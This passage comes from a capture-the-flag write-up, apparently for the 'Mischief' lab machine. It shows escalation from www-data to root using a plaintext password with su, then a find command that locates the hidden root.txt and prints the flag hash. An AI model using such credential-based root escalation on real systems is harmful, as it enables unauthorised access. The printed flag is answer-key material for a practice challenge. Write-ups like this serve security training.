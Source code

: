 However, if we take a look at user "www-data", we can notice that we can run "su" command and become "root"
{% highlight shell %}
$ su root
su root
Password: lokipasswordmischieftrickery

root@Mischief:/home/loki# id
id
uid=0(root) gid=0(root) groups=0(root)

root@Mischief:/home/loki#
{% endhighlight %}

However, we don't have a correct "root.txt" in the directory "/root".
{% highlight shell %}
root@Mischief:/home/loki# cat /root/root.txt
cat /root/root.txt
The flag is not here, get a shell to find it!

root@Mischief:/home/loki#
{% endhighlight %}

By running following command, we can find the correct "root.txt".
{% highlight shell %}
root@Mischief:~# find / -name root.txt -type f
find / -name root.txt -type f
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/root/root.txt

root@Mischief:~# cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155fad479c56f912c65d7be4487807

root@Mischief:~#
{% endhighlight %}
